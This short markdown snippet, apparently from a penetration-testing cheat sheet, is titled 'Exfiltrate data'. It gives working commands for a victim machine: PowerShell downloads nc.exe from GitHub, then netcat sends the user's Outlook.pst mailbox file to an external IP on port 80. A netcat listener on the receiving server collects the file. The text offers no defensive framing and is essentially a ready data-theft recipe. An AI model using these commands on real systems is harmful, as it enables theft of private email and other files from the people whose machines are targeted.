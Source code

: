 # Exfiltrate data
On victim/client:

In powershell shell (powershell has the wget command):
```cmd
wget https://github.com/int0x33/nc.exe/raw/master/nc.exe -Outfile nc.exe
cmd /c 'nc.exe -w 3 23.88.111.175 80 < Outlook.pst'
```

On receiving server:

```bash
nc -l -p 80 > Outlook.pst
```
